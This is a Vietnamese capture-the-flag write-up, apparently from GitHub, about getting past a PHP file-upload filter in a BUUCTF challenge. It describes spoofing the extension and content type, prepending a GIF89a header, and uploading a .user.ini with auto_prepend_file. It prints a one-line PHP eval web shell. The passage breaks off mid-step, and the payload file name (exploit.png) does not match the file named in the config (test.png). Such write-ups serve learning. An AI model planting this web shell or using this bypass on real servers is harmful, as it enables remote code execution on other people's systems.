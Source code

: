 ![Screenshot 2024-01-05 084737](https://github.com/Llam-a/BUUCTF/assets/115911041/24f09ecb-910d-41cd-8e80-dcee91a30f9d)

Mình sẽ upload Trojan r dùng burpsuite để bắt package 

![Screenshot 2024-01-05 084917](https://github.com/Llam-a/BUUCTF/assets/115911041/cfaced9f-a759-4078-90bf-e17241947d51)

Và kết quả là bị filter nên mình sẽ đổi suffix của file và sửa lại content_type đi

![Screenshot 2024-01-05 085039](https://github.com/Llam-a/BUUCTF/assets/115911041/988f6a4a-8ef0-472a-bf12-95739b1a5ab2)

Vẫn bị filter, mình thay đổi Trojan 1 chút

![Screenshot 2024-01-05 085149](https://github.com/Llam-a/BUUCTF/assets/115911041/fb9d39ba-e8d1-4aac-b05f-c47862b28a00)

Sau đó thì nó hiện ra lỗi exif_imagetype.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/5f5799b0-d7a7-40e3-ac47-32910f4e07f0)

Hàm exif_imagetype() dùng để đọc thông tin Exif đầu tiên trong một tệp hình ảnh và xác định kiểu của nó.Hàm sẽ mở tệp và đọc một phần nhỏ của dữ liệu Exif từ đầu tệp. Sau đó, nó sẽ phân tích và so sánh các giá trị trong dữ liệu Exif với các mẫu kiểu hình ảnh đã biết để xác định kiểu của tệp.Nếu hàm exif_imagetype() không thể đọc dữ liệu Exif từ tệp hoặc không tìm thấy các mẫu kiểu hình ảnh phù hợp, nó sẽ trả về giá trị FALSE. Nếu thành công, nó trả về một số nguyên đại diện cho kiểu hình ảnh, như đã mô tả trong giải thích trước đó.

Vậy ta thêm GIF89a vào đầu

![Screenshot 2024-01-05 092444](https://github.com/Llam-a/BUUCTF/assets/115911041/bd467482-0b30-41a5-a68a-f04f164a45e8)

Và ta đã upload thành công.Nhưng mà bây giờ nó chỉ ở dạng hình ảnh,và ta phải parse nó sang php.Sau khi research thì mính biết them 1 cách để bypass filter trong upload file là upload `.user.ini`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/86bde3dc-a45c-4ab8-94c0-17ca6803a703)

Tệp .user.ini cho phép bạn tùy chỉnh cấu hình PHP một cách linh hoạt và không yêu cầu quyền quản trị hệ thống.Khi một yêu cầu web được gửi đến ứng dụng PHP, trình chủ (web server) sẽ tìm kiếm tệp .user.ini trong thư mục gốc của ứng dụng. Nếu tệp tồn tại, các thiết lập trong tệp sẽ được áp dụng cho yêu cầu hiện tại và các yêu cầu sau đó trong cùng phiên làm việc.Ta có thể đặt cài đặt INI của chế độ PHP_INI_PERDIR và PHP_INI_USER trong php.ini trong .user.ini và .user.ini có thể được sử dụng miễn là nó nằm trên máy chủ sử dụng chế độ CGI/FastCGI.

Và có 2 setting thú vị là: auto_prepend_file và auto_append_file

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/b639e580-91ef-4cc9-a258-49beaeebd983)

Tên file được chỉ định sẽ được tự động parse vào file chính. Ví dụ ta set auto_prepend_file=test.abc ở file .user.ini thì khi ta mở 1 file php trong cùng thư mục thì cái file test.abc đó sẽ tự động được load vào file php đó, tương tự như khi ta gọi đến 1 hàm include hoặc require.

Từ đó dẫn đến ý tưởng attack là đầu tiên ta sẽ upload 1 file thỏa mãn filter và chứa code php trong đó. Ví dụ exploit.png

```PNG
<script language="php">@eval($_POST['shell']);</script>
```
Sau đó upload 1 file .user.ini có chứa setting auto_prepend_file vào file exploit.png với nội dung sau:

```PNG
auto_prepend_file=test.png
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/17786d2f-8eca-4e3d-84ea-ea3d750049c3)

Tiếp theo mình upload file Trojan




